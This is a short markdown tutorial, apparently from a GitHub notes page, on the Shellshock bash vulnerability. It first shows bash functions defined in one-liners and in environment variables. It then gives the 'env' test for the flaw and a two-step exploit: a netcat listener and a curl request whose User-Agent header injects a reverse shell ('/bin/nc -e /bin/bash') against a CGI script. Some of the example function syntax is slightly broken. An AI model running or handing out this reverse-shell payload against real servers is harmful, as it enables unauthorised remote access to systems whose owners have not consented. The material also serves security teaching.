 # Shellshock

### Bash functions

* Can be defined in "one liners"


```
$ welcome() {echo "Hi $USER"; }
```

Type welcome:

```
$ welcome
```

Output:
> Hi user

* Can be defined in environment variables



```
$export hellofunc="() {echo "Hi $USER"}"

```

```
$bash -c 'hellofunc'
```

### Shellshock

```
> env val='() { : ;}; echo vulnerable' bash -c "echo test"
```

### Exploit Shellshock to gain a Shell

#### Turn on a netcat listener on attacker machine

```
> netcat -nlvp 443
```



#### Use curl send a request


```
> curl -H "user agent: () { : ;};echo;/bin/nc -e /bin/bash [yourIPaddress] 443" [targetIPaddress]/cgi-bin/vulnerable.cgi
``` 





